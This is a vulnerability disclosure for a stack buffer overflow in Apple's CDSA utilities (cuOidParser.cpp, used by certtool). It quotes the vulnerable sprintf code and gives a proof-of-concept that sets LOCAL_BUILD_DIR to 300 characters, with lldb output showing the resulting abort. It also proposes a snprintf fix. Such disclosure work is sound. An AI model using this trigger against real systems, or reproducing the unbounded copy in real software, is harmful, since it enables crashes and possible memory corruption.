 VuNote
======

	Author:	        <github.com/tintinweb>, pinky
	Ref:            https://github.com/tintinweb/pub/tree/master/pocs/nocve-2017-macos-oidparser-certtool
	Version:        0.2
	Date:           Oct 09th, 2016

	Tag:            certtool cuOidParser sprintf buffer overwrite

Overview
--------

	Name:              Cryptographic services - libsecurity_cdsa_utils
	Vendor:            Apple Computer, Inc
	References:        [1]

	Version:           macOS (10.6)
	Latest Version:	   -
	Other Versions:    <= 10.6 (at least). verified not affected >= 10.12
	Platform(s):       OS x, Linux
	Technology:        C++

	Vuln Classes:      CWE-120: Buffer Copy without Checking Size of Input
	Origin:	           local
	Min. Privs.:       -

	CVE:

	* NOTE:            Marked as Deprecated Technologies
                       /!\ This issue was silently fixed between 10.6 and 10.12



Description
---------

The CDSA utilities are part of the Cryptographic Services provided by Apple Computer Inc [4].

quote website [4]

>CDSA is an Open Source security architecture adopted as a technical standard by the Open Group. Apple has developed its own Open Source implementation of CDSA, available as part of Darwin at Apple’s Open Source site. The core of CDSA is CSSM (Common Security Services Manager), a set of Open Source code modules that implement a public application programming interface called the CSSM API. CSSM provides APIs for cryptographic services (such as creation of cryptographic keys, encryption and decryption of data), certificate services (such as creation of digital certificates, reading and evaluation of digital certificates), secure storage of data, and other security services (see Apple CDSA Plug-ins for a more complete list).

Summary
-------

The CDSA Util library as part of the cryptographic services provided by Apple
Computer Inc is missing a bounds-check for a stack buffer in `ooidparser` when processing the
environment variable `LOCAL_BUILD_DIR`.
In `cuOidParser.cpp::readConfig` an environment variable `CONFIG_FILE_ENV="LOCAL_BUILD_DIR"` is being read. This input is of arbitrary length but copied to a fixed 100 character array `filename`.
By providing a value of more than 100 characters to that environment variable the stack buffer
`filename` is overwritten and consequently the pointer to `localBuildDir` on the stack.
This library is, for example, used in certtool [5] which is used for the
attached PoC.

Note: macOS 10.12 (or before) was silently patched to use `asprintf` instead of `sprintf` and is therefore not affected anymore

![Image Ida certtool 10.12 fixed](https://github.com/tintinweb/pub/raw/master/pocs/nocve-2017-macos-oidparser-certtool/10.12.fixed.png)

Details
-------

The vulnerable code is located in `cuOidParser.cpp` [3] at line 127.
The function `sprintf(dest, format, ...)` sends formatted output to the
string dest. As the formatted string is composite of `localBuildDir`
and `CONFIG_FILE_NAME` the length of the destination can be exceeded.
Consequently dest is 'overwritten' if the formatted string does not fit.

	121		char fileName[100];
	122		char *localBuildDir  = getenv(CONFIG_FILE_ENV);
	123		if(localBuildDir == NULL) {
	124			rtn = 1;
	125		}
	126		else {
	127			sprintf(fileName,  "%s/%s", localBuildDir, CONFIG_FILE_NAME);
	128			rtn = readFileExtra(fileName, 1, &configData->Data,
	129				&configData->Length);
	130		}

The variable `filename` is defined with a length of 100 characters as can
be seen in lines 121. The user tainted `localBuildDir` read from the
environment variable `CONFIG_FILE_EMV` (line 122) is used in line 127 and
creates the stack overflow.

Proof of Concept
----------------

Prerequisites:
* OS X with installed certtool
* any input certificate to display (.pem format)

1. Create a certificate, we use `lala.pem`

2. Run `LOCAL_BUILD_DIR=$(python -c 'print "A"*300') certtool d lala.pem` to trigger the overflow.

Additionally

3. Use a debugging tool like `lldb` to collect a stack trace by calling
`LOCAL_BUILD_DIR=$(python -c 'print "A"*300') lldb -- certtool d lala.pem` and
run the code in lldb.

Exec:

	brain1-1:~ pinky$ LOCAL_BUILD_DIR=$(python -c 'print "A"*300') lldb -- certtool d lala.pem
	(lldb) target create "certtool"
	Current executable set to 'certtool' (x86_64).
	(lldb) settings set -- target.run-args  "d" "lala.pem"
	(lldb) run
	Process 34489 launched: '/usr/bin/certtool' (x86_64)
	Process 34489 stopped
	* thread #1: tid = 0x211e05, 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10, queue = 'com.apple.main-thread', stop reason = signal SIGABRT
	    frame #0: 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10
	libsystem_kernel.dylib`__pthread_kill + 10:
	-> 0x7fff8e681866:  jae    0x7fff8e681870            ; __pthread_kill + 20
	   0x7fff8e681868:  movq   %rax, %rdi
	   0x7fff8e68186b:  jmp    0x7fff8e67e175            ; cerror_nocancel
	   0x7fff8e681870:  retq
	(lldb) bt all
	* thread #1: tid = 0x211e05, 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10, queue = 'com.apple.main-thread', stop reason = signal SIGABRT
	  * frame #0: 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10
	    frame #1: 0x00007fff8741235c libsystem_pthread.dylib`pthread_kill + 92
	    frame #2: 0x00007fff89ae1bc6 libsystem_c.dylib`__abort + 145
	    frame #3: 0x00007fff89ae2479 libsystem_c.dylib`__stack_chk_fail + 196
	    frame #4: 0x0000000100006a34 certtool`___lldb_unnamed_function115$$certtool + 250

Proposed Patch
--------------

Limit the characters written by changing `sprintf` for `snprintf` with the size of the destination buffer (-1 for the `\0`).

	127	- sprintf(..,...)
	127	+ snprintf(filename, sizeof(filename)-1, "%s/%s", ...)

Notes
-----
If `LOCAL_BUILD_DIR=$(python -c 'print "A"*300') certtool d lala.pem` as in
step 2) of the PoC the program will abort with `Abort trap: 6`, the binary is most likely compiled with the `fortify_source`.
However, this might not be the case for third party applications using this library.

References
----------

	[1] https://developer.apple.com/library/content/documentation/Security/Conceptual/cryptoservices/CDSA/CDSA.html
	[2] https://github.com/Apple-FOSS-Mirror/Security
	[3] https://github.com/Apple-FOSS-Mirror/Security/tree/master/libsecurity_cdsa_utils
	[4] https://developer.apple.com/library/prerelease/content/documentation/Security/Conceptual/cryptoservices/Introduction/Introduction.html
	[5] https://github.com/Apple-FOSS-Mirror/Security/blob/7adf341b856468eac2593bbd8db85b19a785bc42/libsecurity_cdsa_utils/lib/cuOidParser.cpp

Contact
-------

	https://github.com/tintinweb
